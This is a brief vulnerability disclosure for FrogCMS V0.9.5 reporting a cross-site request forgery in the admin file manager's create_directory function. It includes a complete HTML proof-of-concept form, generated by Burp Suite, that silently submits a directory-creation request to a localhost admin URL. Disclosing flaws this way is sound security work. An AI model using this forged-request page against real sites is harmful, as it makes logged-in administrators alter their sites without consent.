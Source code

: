 
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/plugin/file_manager/create_directory

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/plugin/file_manager/create_directory" method="POST">
      <input type="hidden" name="/plugin/file_manager/create_directory" value="" />
<input type="hidden" name="directory%5Bpath%5D" value="%2F" />
<input type="hidden" name="directory%5Bname%5D" value="cs" />
<input type="hidden" name="commit" value="Create" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```


